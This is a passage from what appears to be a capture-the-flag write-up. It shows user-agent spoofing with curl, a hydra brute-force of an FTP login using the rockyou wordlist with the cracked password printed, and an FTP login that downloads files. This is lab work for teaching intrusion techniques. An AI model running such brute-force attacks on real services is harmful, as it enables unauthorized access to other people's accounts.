 When I see the hint it says try user-agent “C”, I got the following:

```cpp
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.10.128.229/ -A C -L
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP.
Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

So, now we have username “chris” and it is informing that the password is weak. 

Time to brute force the password. 

```cpp
┌──(kali㉿kali)-[~/Downloads]
└─$ hydra -l chris -P rockyou.txt 10.10.161.189 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-30 11:47:04
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.161.189:21/
[STATUS] 34.00 tries/min, 34 tries in 00:01h, 14344377 to do in 7031:34h, 4 active  
[STATUS] 37.00 tries/min, 111 tries in 00:03h, 14344300 to do in 6461:24h, 4 active                                                             
crystal[STATUS] 19.57 tries/min, 137 tries in 00:07h, 14344278 to do in 12215:20h, 1 active
[STATUS] 12.40 tries/min, 186 tries in 00:15h, 14344229 to do in 19279:53h, 1 active
[21][ftp] host: 10.10.161.189   login: chris   password: crystal      
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-30 12:11:48 
```

I used hydra to brute force the password. It took few minutes to find the password.

Lets see what we got in ftp service.

```cpp
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.10.161.189
Connected to 10.10.161.189.
220 (vsFTPd 3.0.3)
Name (10.10.161.189:kali): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22424|)
get150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||46229|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |********************|   217        2.95 MiB/s    00:00 ETA
226 Transfer complete.
```